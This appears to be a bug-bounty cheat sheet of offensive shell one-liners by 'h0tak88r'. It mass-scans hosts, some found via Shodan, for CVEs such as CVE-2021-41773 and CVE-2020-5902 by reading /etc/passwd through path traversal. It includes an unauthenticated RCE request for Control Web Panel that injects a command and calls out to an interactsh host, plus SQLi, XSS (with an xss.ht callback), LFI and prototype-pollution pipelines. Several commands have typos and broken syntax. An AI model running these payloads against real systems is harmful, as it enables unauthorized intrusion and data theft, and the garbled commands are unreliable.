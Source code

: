 <aside>
<img src="https://s3-us-west-2.amazonaws.com/secure.notion-static.com/863852bf-ce40-4e73-99a3-f9e382f24e62/h0tak88r.jpeg" alt="https://s3-us-west-2.amazonaws.com/secure.notion-static.com/863852bf-ce40-4e73-99a3-f9e382f24e62/h0tak88r.jpeg" width="40px" /> **BY: h0tak88r**

</aside>

# CVE’s

## #Nuclie

```bash
cat dorks.txt| uncover — silent | httpx — silent | nuclei -t /nuclei-templates/cves
```

## #CVE-2022-1040

```bash
curl --connect-timeout 10 -ks -H "X-Requested-With: XMLHttpRequest" -X POST "https://host/userportal/Controller?mode=8700&operation=1&datagrid=179&json=\{"👽":"TEST"\}"
```

## #CVE-2021-41773 POC

```bash
cat subdomains.txt | while read host; do curl -m 10 -sS --silent --path-as-is --insecure "https://$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host ==> Vulnerable" >lol.txt || echo "$host ==>Not Vulnerable"; done
```

## #CVE-2020-5902

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port separator " " | awk '{print $1":"$2}' | while read host do ;do curl silent-path-as-is--insecure 
"https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp? fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n"; done
```

## #CVE-2020-3452

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table? type=mst&textdomain=/+CSCOE+/portal_inc.lua&default-language&lang=../" | head | grep -q "cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "${RED} NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

## #CVE-2022-0378

```bash
cat file.txt | while read h do;do curl -sk --insecure  "https://$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && \echo "$h \033[0;31mVul\n" || echo "$h \033[0;32mNot\n";done
```

### **[CVE](https://twitter.com/hashtag/CVE?src=hashtag_click)**-2022-44877 Control **Web** Panel Unauth [#RCE](https://twitter.com/hashtag/RCE?src=hashtag_click)

```html
POST /login/index.php?login=$(ping${IFS}-nc${IFS}2${IFS}`whoami`.{{interactsh-url}}) HTTP/1.1
Host: vuln
Content-Type: application/x-www-form-urlencoded

username=root&password=toor&commit=Login
```

# # Scanning Automation

```bash
**while true; do subfinder -dL domains.txt -all | anew subs.txt | httpx | nuclei -t nuclei-templates/ | notify ; sleep 3600; done**
```

# #SQLI

```bash
[+] findomain -t testphp.vulnweb.com -q |httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```

# #**XSS**

```bash
[+] waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u tee FILE.txt && catFILE.txt❘ dalfox -b YOURS.xss.ht pipe > OUT.txt
[+] cat HOSTS.txt | getJS | httpx --match-regex "addEventListener\((?:\\") message(?: '|\")"
[+] gospider -S URLS.txt -c 10 d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other- source | grep -e "code-200" | awk '{print $5}' grep "=" qsreplace -a | dalfox pipe | tee OUT.txt
```

# **#LFI**

```bash
[+] gau HOST -s "" | gf lfi | qsreplace "/etc/passwd" | xargs -1% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"
```

# #Open Redirects

```bash
[+] export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST"| xargs -I %
-P 25 sh -c 'curl -Is "" 2>&1 | grep -q "Location: $LHOST" && echo "VULN!٪"'
[+] cat URLS.txt❘ gf url | tee url-redirect.txt && cat url-redirect.txt | parallel - 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
```

# #CORS Misconfigurations

```jsx
subfinder -d hackerone.com -nW -silent | httprobe -c 70 -p 80,443,8080,8081,8089 | tee http_https.txt
cat http_https.txt | CorsMe -t 70
```

# #Prototype Pollution

```bash
subfinder -d HOST -all -silent ❘ httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?_proto_[testparam]=exploit\//' FILE.txt | page- fetch -j 'window.testparam == "exploit"? "[VULNERABLE]": "[NOT VULNERABLE]" | sed "s/(//g" sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```

# #Find JavaScript Files

```bash
assetfinder --subs-only HOST | gau | egrep -v '(.css.png|.jpeg|.jpg|.svg|.gif].wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9_]+" | sed -e 's, 'var', '"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'): echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done
```

# #Extract Endpoints from JavaScript

```bash
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]&\""| sed -e 's/^"//' -e 's/"$//' | sort -u
```

# #Get CIDR & Org Information from Target Lists

```bash
for HOST in $(cat HOSTS.txt); do echo (for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " | paste -; d
one | uniq); done
```
